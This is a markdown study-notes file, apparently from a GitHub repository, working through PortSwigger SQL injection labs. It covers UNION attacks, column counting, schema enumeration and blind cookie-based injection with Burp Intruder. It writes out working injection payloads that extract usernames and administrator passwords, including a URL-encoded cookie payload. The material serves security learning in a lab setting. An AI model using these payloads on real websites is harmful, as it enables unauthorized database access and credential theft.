










# SQL Injections

Most SQL Injections occur in the SELECT clause hoever we can also expand to other attacks such as the SQL [Union](https://www.w3schools.com/sql/sql_union.asp) attacks.
Union attacks are quite restrictive since they require
- The two queries return the same number of columns
- Data types between queries must be compatible

Since Union appends the results from the first query with the results of the second query (by column)

To find the number of columns we can utilizes the ORDER BY sent in a where clause i.e.,

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
[Using Unions and Null values](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/determining-the-number-of-columns-required-6r5t)

Or using union select and a number of null values. Since NULL is compatible with every common data type, and we must have all values returns by the injected select to be compatible with. If successfull the result returns an additional row with all NULL values in the columns, however is succestuble to NULL POINTER EXCEPTION

```
UNION SELECT NULL [,NULL]--
```



In this lab we discover the number of columns in a SQL query notice after trying three NULLs there is an extra row of NULLS at the bottom!

## [Database specific queries](https://portswigger.net/web-security/sql-injection/cheat-sheet)
Oracle requires the use of the FROM after a SELECT call. We may use DUAL which is a default table always available

On mySQL the comment commnad `--` should always be followed by a SPACE


## Looking for string data

String data usually is what we want to exfiltrate from the website, hence looking for a column that is compatible with string data comes in handy the typical way is to submit SQL UNION statements with a string character i.e.,`'a'` and check that the website response.

E.g. ' UNION SELECT 'a',NULL,NULL,NULL -- 



In this lab we send the SQL query when looking for accesories


> Database names and columns are difficult to find. Sometimes we need to guess however, all moderns Databases have a function to examine the tables and columns, if only we can access that functionality... 


### Lab Usefull data
In this lab we have discovered a SQL vulnerability in the filtering of the website. Now hypothetically assume there is a table called users with a username and password column.. ah now we can use a modified query to extract this data

```
UNION SELECT username,password FROM users --
```

lab solved


> Internal Server Error : Indicators of SQL server processing command and giving response

## Combining columns in SQL from the database

In ORACLE we can use the double pipe to concatonate columns

```
' UNION SELECT username || '~' || password FROM users--
```

In this case we join the fields with a '~'. Concatonation may be diffrent depending on the database




## Gather the information about the DATABASE!
Information gathering is the most important step of trying to break in!
- What type and version of database are they running
- What tables and columns do they contain

This can be done by doing these queries:

```
Database type	    Query
Microsoft, MySQL	SELECT @@version
Oracle	            SELECT * FROM v$version
PostgreSQL	        SELECT version()
```

To aqcuire the table and columns we can attempt to use information schemas. i.e.,

 `SELECT * FROM information_schema.tables`

 

and further more we can query the columns using 

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`


## [Lab SQL Injection Examining Database](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle#) 

First we try this query on the known SQLi vulnerable filter 
> Food & Drink ' UNION SELECT table_name,NULL FROM information_schema.tables --


We get alot of tables but looking through the [html](./lab_examining_db/labTB_return1.html)
two tables stick out sticks out from the query results
- pg_user
- pg_auth_members

Lets check the user table with the next query

> Accessories ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user' -- 

And we get these columns aha!


Lets finally check what the column consist of by doing a union on usename and passwd

> ' UNION SELECT col_a, col_b FROM table_name -- 
Hmm the passwords are not in cleartext infact they are just ****** symbols?

Dead end?!

We try a broader query attempting to identify any column which have username or password and which tables

Query Broad:
> Gifts ' UNION SELECT 'tablename: ' || table_name,'column_name: ' || column_name FROM information_schema.columns WHERE 1=1 --

[see returned html](./lab_examining_db/query_broad_ret.html)

Aha we do a simple match for password or pass and get a hit!

```HTML
<tr>
    <th>tablename: pg_roles</th>
    <td>column_name: rolpassword</td>
</tr>
```

However checking we also get ****** as password, Dead End?! the next match we see is

```HTML
<tr>
    <th>tablename: users_rgeana</th>
    <td>column_name: password_ryvjln</td>
</tr>
```

this one looks promising, some obsufication done by Portswigger aswell! andd... we found the valid return!

> Gifts ' UNION SELECT password_ryvjln,username_wcwybq FROM users_rgeana  -- 




## Blind SQL Queries

Blind SQL occurs when the server does not return the results from an SQL query. Thus the techiniques using UNION are not effective :(

However there are ways to exploit sql depending on changes in observable website behaviour such as the [tracking cookie](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/exploiting-blind-sql-injection-by-triggering-conditional-responses)

The exploit boils down to extracting data one step at the time by writing conditional values at the end of the query to the cookie.

Imagine a Genie that only answers yes/no how would you extract information? 
- Slowly
e.g., The date
- Is today year >2000? Is it <2030? 
- Is today month >6? Is it <7? 
- Is today >1 AND < 5? 

... repeat with narrower and narrower intervals

For instance guessing the password 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

### [Lab Blind SQL with conditional response](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses)

In this lab we will need to do some bruteforce hence what will be used is Burp Intruder!

We are given there is a vulnerability in the `Tracking ID` cookie field that causes the website to give us a "Welcome back" message if the SQL injection is true.. thus we can use this to slowly extract data

We use this query

> ' OR SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'p' --

In html request format
> Cookie: TrackingId='%20OR%20SUBSTRING((SELECT%20password%20FROM%20users%20WHERE%20username%20%3d%20'administrator')%2c%201%2c%201)%20%3d%20'p'%20--;

And iterate through all positions, a smart algorithm we can construct is using a binary search on the characters instead of linear; however within the Burp Suite we will use linear

We simply run a SNIPER attack knowing that the substring method has the following syntax
`SUBSTRING(your_column FROM start_position FOR length)`

Thus we can try a sniper attack iterating fro and all characters and manually changing the `start_position` because..

> Burp Free Version throttles the rate after ~20, ~30, ~40, ~50 ...~100  after 100 its really slow. Better to do multiple short batches of request than one large batch.

Our technique is the following to minimize throttling
- Manually change the position of the start of the substring 1 to N
- Set the payload to [charlist_common.txt](./lab_blind_sql/charlist_common.txt)
- If no hits using charlist_common go to the next start_index and check if we have hit end of password (if we observe many consecutive non-hits), otherwise use [charlist_uncommon.txt](./lab_blind_sql/charlist_uncommon.txt) on the non-hit positions

 hit
 

...
\<Some extended amount of time passes\>

after running it multiple times with diffrent positions... 
>69mv87e5eii164ftiirx

We have the password!



Additional steps:
Veryfying the existance of columns by using the following queries
- Verify existance of users table:
- `TrackingId= ' AND (SELECT 'a' FROM users LIMIT 1)='a`
- Verify existance of administrator in users table
- `TrackingId= ' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
- Verify length of password (iterate through greater and greater lengths)
- `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`


